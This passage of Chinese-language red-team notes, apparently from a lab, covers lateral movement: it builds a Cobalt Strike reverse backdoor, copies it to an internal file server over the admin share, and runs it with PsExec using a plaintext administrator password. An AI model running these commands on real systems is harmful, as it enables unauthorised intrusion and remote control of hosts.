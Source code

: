 ## 横向移动

### cs生成转发上线exe

cs配置转发上线监听器， 生成反向后门，转发上线

<img src=".\图片\Snipaste_2023-05-12_15-42-50.png" alt="Snipaste_2023-05-12_15-42-50" style="zoom:80%;" />

### 复制后门到 fileserver

```beacon
beacon> shell copy 4444.exe \\10.10.1.128\c$\windows\temp\rve.exe
[*] Tasked beacon to run: copy 4444.exe \\10.10.1.128\c$\windows\temp\rve.exe
[+] host called home, sent: 82 bytes
[+] received output:
已复制         1 个文件。
```

### PsExec64执行后门

PsExec64 这里需要交互shell，在beacon里不行

```bash
PsExec64.exe \\10.10.1.128 -u administrator -p QWEasd123 -i c:\\windows\\temp\\rve.exe
```

<img src=".\图片\Snipaste_2023-05-12_16-10-14.png" alt="Snipaste_2023-05-12_16-10-14" style="zoom:80%;" />
